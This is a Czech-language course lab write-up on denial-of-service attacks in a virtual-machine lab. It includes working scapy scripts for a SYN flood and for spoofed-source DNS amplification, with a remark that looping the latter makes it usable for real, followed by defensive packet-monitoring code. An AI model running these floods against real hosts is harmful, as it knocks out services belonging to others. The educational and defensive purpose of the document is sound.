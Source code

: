 # Denial of Service

Pro vypracování používáme virtuální stroje vytvořené pomocí nástroje `Vagrant`. Definice těchto strojů je popsána v příslušném `Vagrantfile` souboru.

Vytvořili jsme DNS server, počítač útořníka a oběti.

DNS server jsme zrpovoznili podle návodu na https://www.unixmen.com/dns-server-setup-using-bind-9-on-centos-7-linux/.

Kontrola otevřeného portu na DNS serveru

```bash
$ nmap -sU -sC -sV -p53 192.168.56.12
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-26 18:54 Central Europe Daylight Time
Nmap scan report for 192.168.56.12
Host is up (0.0010s latency).

PORT   STATE SERVICE VERSION
53/udp open  domain  ISC BIND 9.11.4-P2 (RedHat Enterprise Linux 7)
| dns-nsid:
|_  bind.version: 9.11.4-P2-RedHat-9.11.4-26.P2.el7_9.4
|_dns-recursion: Recursion appears to be enabled
MAC Address: 08:00:27:AF:89:EB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.43 seconds
```

## SYN Flood

Skript `syndos.py` odesílá ve smyšce pakety s příznakem `SYN` na adresu oběti a port 80.

Skript použitý pro odesílání paketů způsobujících útok typu `SYN flood`:

```python
from scapy.all import *

target_ip = "192.168.56.10"
target_port = 80

ip = IP(dst=target_ip)
tcp = TCP(sport=RandShort(), dport=target_port, flags="S")

raw = Raw(b"Nemam cas delam DoS")

p = ip / tcp / raw
send(p, loop=1, verbose=0)
```

Ukázka útoku na hardwarový přípravek ESP8226:

![../src/ESPDOS.png](../src/ESPDOS.png)

Přípravek jinak snadardně provozuje následující webovou stránku:

![../src/afterDOS.png](../src/afterDOS.png)

## DNS amplifikace

Skript `dnsamp.py` odesílá DNS paket s podvrženou zrojovou IP adresou. Dotázaný server na tuto adresu následně odesílá odpověd a apmplifikuje tak provoz mířící na skutečný cíl.

Skript odesílá pouze jeden paket jako demonstraci tohoto typu útoku. Pro reálné použití stačí popsaný požadavek odesílat v jednoduchém while cyklu.

```python
from scapy.all import *
 
target     = "192.168.56.10" # Target host
nameserver = "192.168.56.12" # DNS server
 
ip  = IP(src=target, dst=nameserver)
udp = UDP(dport=53)
dns = DNS(rd=1, qdcount=1, qd=DNSQR(qname="fit.cvut.cz", qtype=255))
 
request = (ip/udp/dns)
 
send(request)
```

Útok je demostrován na následujícím obrázku:

![../src/singleDNS.png](../src/singleDNS.png)

# DoS Monitoring

Monotirong nejprve provádíme pomocí python skriptu a nástroje scapy. Následně v programu napsaném v jazyce C.

## Python monitoring

Skript zachytá všechny pakety a filtruje `DNS` pakety a `TCP` pakety s příznakem `SYN`.

```python
from scapy.all import *
from pprint import pprint

interface = "enp0s8"

def show_packet(packt):
    if IP in packt:
        src_ip = packt[IP].src

        # if UDP in packt and str(packt[UDP].dport) == "53":
        if UDP in packt and packt.haslayer(DNS):
            print(f'Got DNS packet from {src_ip}')
            pprint(packt.getlayer(DNS))

        if TCP in packt and str(packt.getlayer(TCP).flags).upper() == "S":
            print(f'Got SYN packet from {src_ip}')
            pprint(packt.getlayer(TCP))


sniff(iface = interface, prn = show_packet, store = 0)
```

Ukázka monitoringu `DNS DoS` pomocí python skriptu:

![../src/dnsmon.png](../src/dnsmon.png)

Monitoring `SYN flood`:

![../src/SYNDoS.png](../src/SYNDoS.png)

## C Monitoring

To samé dokáže i program `packmon.cpp` napsaný v jazyce `C`. Tento program zároveň vypisuje i celkové počty zachycených paketů.

Ukázka C monitoringu:

![../src/Cmonitor.png](../src/Cmonitor.png)
